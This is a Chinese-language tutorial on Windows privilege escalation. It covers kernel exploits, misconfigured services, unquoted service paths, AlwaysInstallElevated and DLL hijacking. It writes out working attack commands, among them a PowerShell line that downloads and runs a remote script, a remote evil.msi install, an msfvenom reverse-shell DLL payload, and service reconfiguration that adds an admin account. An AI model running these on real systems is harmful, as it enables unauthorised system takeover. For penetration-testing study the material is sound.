# [](#windows-%E6%8F%90%E6%9D%83%E6%96%B9%E5%BC%8F%E6%80%BB%E7%BB%93)Windows 提权方式总结

## [](#1-%E5%89%8D%E8%A8%80)1 前言

### [](#11-%E6%8F%90%E6%9D%83%E5%9F%BA%E7%A1%80%E5%91%BD%E4%BB%A4)1.1 提权基础命令

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>``` | ```bash<br># 查询系统信息<br>systeminfo <br># 如果要查看特定的信息，可以使用<br>systeminfo \| findstr /B /C:"OS名称" /C:"OS版本"<br># 主机名<br>Hostname<br># 环境变量<br>Set<br># 查看用户信息<br>Net user<br># 查看服务 pid 号<br>tasklist /svc\|find "TermService"<br>netstat -ano\|find "3389"<br># 查看系统名<br>wmic os get caption<br># 查看补丁信息<br>wmic qfe get Description,HotFixID,InstalledOn<br># 如果要定位到特定的补丁可以使用如下命令<br>wmic qfe get Description,HotFixID,InstalledOn \| findstr /C:"KB4346084" /C:"KB4509094"<br># 查看当前安装程序<br>wmic product get name,version<br>``` |

其中需要注意一下 `环境变量`，因为有的软件环境变量可能设置在其它路径中，而在该路径下的文件是具有写权限的，就可以通过**替换文件**来达到提权操作

### [](#12-windows-%E6%9D%83%E9%99%90%E5%88%92%E5%88%86)1.2 Windows 权限划分

-   User：普通用户权限，系统中最安全的权限，分配给该组的默认权限不允许成员修改操作系统的设置或用户资料
    
-   Administrator：管理员权限，可以利用 Windows 的机制将自己提升为 System 权限，以便操作 SAM 文件等
    
-   System：系统权限，可以对 SAM 等敏感文件进行读取，往往需要 Administrator 权限提升到 System 权限才可以对散列值进行 Dump 操作
    
-   TrustedInstaller：最高权限， 对于系统文件，即使 System 权限也无法进行修改，只有 TrustedInstaller 权限才可以修改文件
    

### [](#13-%E5%B8%B8%E8%A7%81-webshell-%E6%89%80%E5%A4%84%E7%9A%84%E6%9D%83%E9%99%90)1.3 常见 webshell 所处的权限

通常的 webshell 权限如下：

-   ASP、PHP - 匿名权限
-   ASPX - user 权限
-   JSP - 通常是系统权限

## [](#2-%E7%B3%BB%E7%BB%9F%E5%86%85%E6%A0%B8%E6%8F%90%E6%9D%83)2 系统内核提权

此提权方法即是通过系统本身存在的一些漏洞，未曾打相应的补丁而暴露出来的提权方法，依托可以提升权限的 EXP 和它们的补丁编号，进行提升权限。

检查：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>``` | ```bash<br>systeminfo<br>wmic qfe get Caption,Description,HotFixID,InstalledOn<br># msf<br>post/windows/gather/enum_patches<br>Windows-Exploit-Suggester<br>``` |

下面是辅助提权的页面：

-   [https://github.com/SecWiki/windows-kernel-exploits](https://github.com/SecWiki/windows-kernel-exploits)
-   [https://wiki.0-sec.org/#/index](https://wiki.0-sec.org/#/index)
-   [https://github.com/neargle/win-powerup-exp-index](https://github.com/neargle/win-powerup-exp-index)
-   [http://blog.neargle.com/win-powerup-exp-index/](http://blog.neargle.com/win-powerup-exp-index/)
-   [https://detect.secwx.com](https://detect.secwx.com/)



## [](#3-%E9%85%8D%E7%BD%AE%E4%B8%8D%E5%BD%93%E6%8F%90%E6%9D%83)3 配置不当提权

### [](#31-%E7%B3%BB%E7%BB%9F%E6%9C%8D%E5%8A%A1%E6%9D%83%E9%99%90%E9%85%8D%E7%BD%AE%E9%94%99%E8%AF%AF)3.1 系统服务权限配置错误

Windows 系统服务文件在操作系统启动时加载并执行，并调用可执行文件。因此，如果一个低权限用户对这些调用的可执行文件拥有可写权限，就可以将该文件替换成任意可执行文件，并随着系统服务的启动获得系统权限，但一般情况下，Windows 是以 System 权限执行的，因此，其文件夹、文件和注册表键值都是受到强访问控制机制保护的，但在某些情况下仍有些服务没有得到有效保护。

#### [](#311-accesschk)3.1.1 accesschk

下载地址：[https://download.sysinternals.com/files/SysinternalsSuite.zip](https://download.sysinternals.com/files/SysinternalsSuite.zip)

-   用 accesschk.exe 工具查看当前用户可修改的服务：

`accesschk.exe -uwcqv "XXX" * /accepteula > 1.txt //XXX为当前用户名`

如果出现 SERVICE\_ALL\_ACCESS 则表示当前用户拥有修改该服务的权限



-   查看该服务启动时的权限

`sc qc VMTools`


-   然后修改执行文件路径为我们想要执行的命令

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>``` | ```bash<br># 注意这里的"="后面要留有空格<br>sc config VMTools binPath= "net user test1 abc123! /add"  <br><br># 查看查询该服务的执行路径是否修改成功<br>sc qc VMTools  <br>``` |

-   重启服务

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```bash<br>sc stop VMTools<br>sc start VMTools<br>``` |

但要注意这里启动时会报错，因为当一个服务在 Windows 系统中启动后，它必须和服务控制管理器通信。如果没有通信，服务控制管理器会认为出现了错误，并会终止这个进程。但是我们的命令已经以 SYSTEM 权限运行了，并且成功添加了一个用户。

信息

利用系统自带的 icacls 也可以：

确定写入权限：`icacls "C:\Program Files\program folder"`


「M」表示修改、「F」表示完全控制

「CI」代表从属容器将继承访问控制项

「OI」代表从属文件将继承访问控制项

常用命令：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>``` | ```bash<br>icacls "C:\Program Files\*" 2>nul \| findstr "(M)" \| findstr "Everyone"<br><br>icacls "C:\Program Files(x86)\*" 2>nul \| findstr "(M)" \| findstr "Everyone"<br><br>icacls "C:\Program Files\*" 2>nul \| findstr "(M)" \| findstr "BUILTIN\Users"<br>icacls "C:\Program Files(x86)\*" 2>nul \| findstr "(M)" \| findstr "BUILTIN\Users"<br>``` |

#### [](#312-powersploit)3.1.2 PowerSploit

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>``` | ```powershell<br>powershell.exe -exec bypass -nop -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1'); Invoke-AllChecks"<br><br>powershell.exe -exec bypass -Command "& {Import-Module D:/PowerUp.ps1; Invoke-AllChecks}" > 1.txt<br>``` |

列出了所有可能存在问题的服务：


-   ServiceName：可能存在漏洞的服务
-   Path：该服务的可执行程序的路径
-   StartName：服务运行账号
-   AbuseFunction：利用方式

根据 AbuseFunction 中的利用方式执行脚本，这里以 VGAuthService 服务为例



添加一个名为 user，密码为 123456 的账号：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```powershell<br>powershell.exe -exec bypass -Command "& {Import-Module C:/PowerUp.ps1;Invoke-ServiceAbuse -Name 'VGAuthService' -Username user -Password 123456}"<br>``` |

#### [](#313-metasploit)3.1.3 metasploit

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>``` | ```bash<br>use exploit/windows/local/service_permissions<br>set AGGRESSIVE true<br>set session 1<br>exploit<br>``` |

### [](#32-%E5%8F%AF%E4%BF%A1%E4%BB%BB%E6%9C%8D%E5%8A%A1%E8%B7%AF%E5%BE%84%E6%8F%90%E6%9D%83)3.2 可信任服务路径提权

可信任服务路径漏洞利用了 Windows 文件路径解析的特性，如果一个服务调用的可执行文件没有正确地处理所引用的完整路径名，同时攻击者该文件路径有可写权限，攻击者就可以上传文件来劫持路径名。

例如 Windows 系统启动某服务时查找的文件路径为 `C:\Program Files\Some Folder\Services.exe`。

对于该路径中的每一个空格，Windows 都会尝试并执行与空格前面的名字相匹配的程序，因此 Windows 会以依次如下顺序查找一下启动程序：

-   C:\\Program.exe
-   C:\\Program Files\\Some.exe
-   C:\\Program Files\\Some Folder\\Services.exe

此时如果我们对 C:\\路径或者 C:\\Program Files 有可写的权限，就可以上传 Program.exe 或 Some.exe 程序到相应目录下，当服务重新启动时，就会以 System 权限执行我们上传的恶意程序。

利用条件：

-   服务路径未使用双引号
-   服务路径包含空格
-   我们有某一中间文件夹的写权限

#### [](#321-%E6%A3%80%E6%9F%A5)3.2.1 检查

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>wmic service get name,displayname,pathname,startmode\|findstr /i "Auto" \|findstr /i /v "C:\Windows\" \|findstr/i /v """<br>``` |


#### [](#322-%E5%88%A9%E7%94%A8)3.2.2 利用

接着查看是否有对目标文件夹的写权限，使用 Windows 内置工具 icacls，以此检查各级路径：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>``` | ```bash<br>icacls "C:"<br>icacls "C:\Program Files"<br>icacls "C:\Program Files\VMware"<br>``` |

依次查看各级目录是否有可写权限，最后找到 C:\\Program Files\\VMware 目录，在该目录下方式木马，上线后，即为高权限。

#### [](#333-msf-%E4%B8%AD%E7%9A%84%E6%A8%A1%E5%9D%97)3.3.3 msf 中的模块

`exploit/windows/local/trusted_service_path` 模块

### [](#33-%E8%AE%A1%E5%88%92%E4%BB%BB%E5%8A%A1%E6%8F%90%E6%9D%83)3.3 计划任务提权

如果攻击者对以高权限运行的计划任务所在目录具有所写权限，就可以使用恶意程序覆盖原来的程序，这样，在计划任务下次执行时就会以高权限来运行恶意程序。

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```powershell<br>Get-ScheduledTask \| Select * \| ? {($_.TaskPath -notlike "\Microsoft\Windows\*") -And ($_.Principal.UserId -notlike "*$env:UserName*")} \| Format-Table -Property State, Actions, Date, TaskPath, TaskName, @{Name="User";Expression={$_.Principal.userID}} <br>``` |

查看某个目录的权限配置情况

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>accesschk64.exe -dqv "/path/to/dir"<br>``` |

如果攻击者对某个高权限的计划任务所在的路径有可写权限，可使用恶意程序覆盖原来的程序，当计划任务下次执行时，就会以高权限运行恶意程序。

## [](#4-alwaysinstallelevated-%E6%8F%90%E6%9D%83)4 AlwaysInstallElevated 提权

注册表键 AlwaysInstallElevated 是一个策略设置项，Window 允许低权限用户以 System 权限运行 MSI 安装文件，如果启用此策略设置项，那么任何权限的用户都能以 `NT AUTHORITY\SYSTEM` 权限来运行恶意的 MSI 文件

### [](#41-%E6%9F%A5%E8%AF%A2)4.1 查询

查询：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```bash<br>reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated<br>reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated<br>``` |

未启用 AlwaysInstallElevated 策略，返回结果为：「找不到指定的注册表项或值」

### [](#42-%E5%BC%80%E5%90%AF)4.2 开启

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```bash<br>reg add HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated /t REG_DWORD /d 1<br>reg add HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated /t REG_DWORD /d 1<br>``` |

### [](#43-%E6%89%A7%E8%A1%8C-msi-%E6%96%87%E4%BB%B6)4.3 执行 MSI 文件

本地执行：`msiexec /q /i C:\msi.msi`

-   /i 参数用来表示安装操作
    
-   /q 参数用来隐藏安装界面
    

并且 MSIEXEC 也可以实现无落地文件的方式进行木马上线的方式，当然低权限用不了，因为 msi 文件需要可信的证书才能远程利用 AlwaysInstallElevated 提权：`msiexec /q /i http://ip/evil.msi`


### [](#44-%E5%88%A9%E7%94%A8)4.4 利用

#### [](#441-powerup-%E8%84%9A%E6%9C%AC)4.4.1 PowerUP 脚本

[https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1)

测试是否启用 AlwaysInstallElevated：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```powershell<br>Import-Module .\PowerUp.ps1<br>Get-RegistryAlwaysInstallElevated<br>``` |

返回 True 代表开启。

#### [](#442-msi-wrapper-%E6%B7%BB%E5%8A%A0%E7%94%A8%E6%88%B7)4.4.2 MSI Wrapper 添加用户

MSI Wrapper 下载地址：[https://www.exemsi.com/download/](https://www.exemsi.com/download/)

将 Payload 设置为执行 ProcessHacker：


运行时要求提升权限：


MSI installation context 下选择 Per User 和 Per Machine 都可以。

## [](#5-%E6%97%A0%E4%BA%BA%E5%80%BC%E5%AE%88%E5%AE%89%E8%A3%85%E6%96%87%E4%BB%B6)5 无人值守安装文件

一些 windows 无人值守安装文件中含有用户的明文或 base64 编码后的密文

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>dir /s *sysprep.inf *sysprep.xml *unattend.xml *unattend.txt 2>nul<br>``` |

常见位置：

-   C:\\sysprep.inf
-   C:\\sysprep\\sysprep.xml
-   C:\\Windows\\system32\\sysprep.inf
-   C:\\Windows\\system32\\sysprep\\sysprep.xml
-   C:\\Windows\\Panther\\Unattend\\Unattended.xml
-   C:\\Windows\\Panther\\Unattend\\Unattend.xml
-   C:\\Windos\\System32\\sysprep\\unattend.xml
-   C:\\Windows\\System32\\Sysprep\\Panther\\unattend.xml

## [](#6-dll-%E5%8A%AB%E6%8C%81%E6%8F%90%E6%9D%83)6 DLL 劫持提权

### [](#61-%E7%9B%B8%E5%85%B3%E6%A6%82%E5%BF%B5)6.1 相关概念

#### [](#611-dll-%E7%AE%80%E4%BB%8B)6.1.1 DLL 简介

何为劫持

在正常事物发生之前进行一个旁路操作

动态链接库(Dynamic-Link-Library，缩写 dll)。在 Windows 中，许多应用程序并不是一个完整的可执行文件，它们被分割成一些相对独立的动态链接库，即 DLL 文件，放置于系统中。当执行某一个程序时，相应的 DLL 文件就会被调用。一个应用程序可使用多个 DLL 文件，一个 DLL 文件也可能被不同的应用程序使用，这样的 DLL 文件被称为共享 DLL 文件。


#### [](#612-dll-%E7%9A%84%E5%8A%A0%E8%BD%BD%E9%A1%BA%E5%BA%8F)6.1.2 DLL 的加载顺序

> 微软的 DLL 劫持分为三个阶段

-   无保护阶段：Windows XP SP2 之前
-   保护阶段：Windows XP SP2 之后，Windows 7 之前
-   进一步保护阶段：Windows 7 之后

> Windows XP SP2 之前

1.  进程对应的应用程序所在目录；
2.  加载 DLL 时所在的当前目录 (SetCurrentDirectory)；
3.  系统目录即 SYSTEM32 目录（通过 GetSystemDirectory 获取）；
4.  16 位系统目录即 SYSTEM 目录；
5.  Windows 目录：C:\\Windows（通过 GetWindowsDirectory 获取）；
6.  PATH 环境变量中的各个目录；

> Windows XP SP2 之后

微软为了防止 DLL 劫持漏洞的产生，在 XP SP2 之后，添加了一个 SafeDllSearchMode 的注册表属性。注册表路径如下：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```fallback<br>HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\SafeDllSearchMode<br>``` |

当 SafeDllSearchMode 的值设置为 1，即安全 DLL 搜索模式开启时，查找 DLL 的目录顺序如下：

1.  应用程序所在目录；
2.  系统目录 SYSTEM32 目录；
3.  16 位系统目录即 SYSTEM 目录。该项只是为了向前兼容的处理，可以不考虑
4.  Windows 目录。通常是C:\\Windows；
5.  加载 DLL 时所在的当前目录；
6.  环境变量 PATH 中所有目录。需要注意的是，这里不包括 App Paths 注册表项指定的应用程序路径。

> win7 之后

微软为了更进一步的防御系统的 DLL 被劫持，将一些容易被劫持的系统 DLL 写进了一个注册表项中，**那么凡是此项下的 DLL 文件就会被禁止从 EXE 自身所在的目录下调用**，而只能从系统目录即 SYSTEM32 目录下调用。注册表路径如下：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```fallback<br>HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\KnownDLLs<br>``` |

Windows 操作系统通过「DLL路径搜索目录顺序」和「Know DLLs注册表项」的机制来确定应用程序所要调用的 DLL 的路径，之后，应用程序就将 DLL 载入了自己的内存空间，执行相应的函数功能。

注册表路径：`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\KnownDLLs`

#### [](#613-%E5%88%86%E6%9E%90-dll-%E7%9A%84%E5%8A%A0%E8%BD%BD%E8%BF%87%E7%A8%8B---process-monitor)6.1.3 分析 DLL 的加载过程 - Process Monitor

Process Monitor 是 Windows 的高级监视工具，可显示实时文件系统，注册表和进程/线程活动。

[https://docs.microsoft.com/zh-cn/sysinternals/downloads/process-utilities](https://docs.microsoft.com/zh-cn/sysinternals/downloads/process-utilities)

Process Monitor Filter 是用于过滤应用程序输出的一部分功能，可以使得进程事件结果成为你想要的内容。常用过滤条件：Process Name，Path，Result



设置 Process Name is 待测目标，设置 Path ends with `.dll`，Result is `NAME NOT FOUND`

#### [](#614-dll-%E5%8A%AB%E6%8C%81%E6%AD%A5%E9%AA%A4)6.1.4 DLL 劫持步骤

如果在应用程序寻找成功之前，将我们自己创造的 DLL 文件放入寻找目录中，那么应用程序就会加载我们自己的 DLL

### [](#62-%E5%AE%9E%E7%8E%B0)6.2 实现

#### [](#621-%E5%AE%9E%E7%8E%B0%E4%B8%80%E4%B8%AA-dll-%E5%8A%AB%E6%8C%81)6.2.1 实现一个 DLL 劫持

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>``` | ```c\+\+<br>BOOL WINAPI DllMain( <br>// 指向自身的句柄<br> _In_ HINSTANCE hinstDLL, <br>// 调用原因<br> _In_ DWORD     fdwReason,<br>// 加载方式（隐式、显式）<br>  _In_ LPVOID    lpvReserved<br>);<br>``` |

| 载入状态 | 值   | 说明  |
| --- | --- | --- |
| DLL\_PROCESS\_ATTACH | 1   | 被进程装载时 |
| DLL\_PROCESS\_DETACH | 0   | 被进程卸载时 |
| DLL\_THREAD\_ATTACH | 2   | 被线程装载时 |
| DLL\_THREAD\_DETACH | 3   | 被线程卸载时 |

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>``` | ```c\+\+<br>BOOL APIENTRY DllMain(HANDLE hModule, DWORD ul_reason_for_call, LPVOID lpReserved){<br>  printf("hModule.%p lpReserved.%p \n", hModule, lpReserved);<br>  switch (ul_reason_for_call)<br>  {<br>    case DLL_PROCESS_ATTACH:<br>      printf("Process attach. \n");<br>      break;<br>    case DLL_PROCESS_DETACH:<br>    	printf("Process detach. \n");<br>    	break;<br>    case DLL_THREAD_ATTACH:<br>    	printf("Thread attach. \n");<br>    	break;<br>    case DLL_THREAD_DETACH:<br>    	printf("Thread detach. \n");<br>    	break;<br>    }<br>return (TRUE);<br>}<br>``` |

如果应用程序调用的 DLL 没有 DLLMain 函数就需要实现指定导出函数，然后等待导出函数执行完毕再 Load 真实 DLL。

#### [](#622-msf)6.2.2 msf

MSF 生成 payload：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=4444 -f dll > a.dll<br>``` |

### [](#63-%E8%87%AA%E5%8A%A8%E5%8C%96%E5%B7%A5%E5%85%B7%E6%A3%80%E6%B5%8B)6.3 自动化工具检测

#### [](#631-rattler)6.3.1 rattler

[https://github.com/sensepost/rattler](https://github.com/sensepost/rattler)

实现思路：

-   枚举进程调用的 dll 列表，解析出 dll 的名称
-   将测试 dll 分别重命名为列表中的 dll 名称
-   再次启动程序，检测是否成功创建进程 calc.exe，如果成功，代表存在漏洞，否则不存在

测试：

使用 Visual Studio 编译 Rattler，将 payload.dll 放于同级目录下

payload.dll 下载地址：

[https://github.com/sensepost/rattler/releases/download/v1.0/payload.dll](https://github.com/sensepost/rattler/releases/download/v1.0/payload.dll)

管理员权限的 cmd 下运行命令：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>Rattler.exe [待检测程序名称] 1<br>``` |

#### [](#632-chkdllhijack)6.3.2 ChkDllHijack

使用 windbg 导出 module：



打开 chkDllHijack，粘贴处要验证的 DLL 内容，等待其运行完毕，检查结果：



### [](#64-dll-side-loadingdll-proxy-loading)6.4 DLL Side-Loading(DLL Proxy Loading)

#### [](#641-%E5%8E%9F%E7%90%86)6.4.1 原理

> 不使应用程序崩溃的情况下利用 DLL Hijack 漏洞。将合法函数调用重定向到原始 DLL，在后台静默加载我们的 shellcode。

DLL Side-Loading 与 DLL 劫持非常相似。但是，它不会破坏原始程序的执行流程或功能。，将恶意程序隐藏在合法应用程序之后，同时也可以利用该方法维持权限。

DLL Proxy 流程图：


-   启动时，应用程序 A 需要使用名为 GetFunkyData() 的第三方函数来获取数据，GetFunkyData() 存在于动态链接库中，该动态链接库位于应用程序的工作目录中，名为 DataFunctions\_Original.dll (B)。
-   应用程序 A 以其名称加载库 DataFunctions.dll，以尝试执行 GetFunkyData()。 该 DLL 实际上是攻击者专门设计的“代理”库，代理 DLL 使用将函数调用重定向到原始 DLL“ DataFunctions\_Original.dll”（B）。
-   此时，攻击者已经劫持了执行流程（C），并且可以代表运行中的进程（E）执行代码，而无需用户或应用程序的了解。

